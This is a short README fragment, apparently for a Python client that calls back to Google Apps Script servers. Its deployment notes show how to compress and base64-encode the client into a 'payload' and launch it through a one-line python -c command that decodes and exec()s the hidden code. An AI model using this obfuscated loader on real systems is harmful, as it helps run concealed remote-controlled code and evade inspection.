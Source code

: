 ## Client Support

![Python](https://img.shields.io/static/v1?label=Python&message=2.7,%203%2B&color=success&logo=python&style=flat-square&logoColor=green) 
## Deployment Notes

- Since Python is an interpreted language, `client.py` is written to limit payload size.
- Add your Google Apps Server URLs to the `srv` array variable in `client.py`. The client will cycle through the array to load balance server connections.
- Run the following Python to generate a payload:

```python
# works with python2 or python3
import base64,zlib
f = open('client.py','rb')
print(base64.b64encode(zlib.compress(f.read(),9)).decode('utf-8'))
f.close()
```

- Copy the base64 encoded payload and paste it into the following command:

```bash
python -c "import base64,zlib;exec(zlib.decompress(base64.b64decode('<PAYLOAD>')).decode('utf-8'))"
```


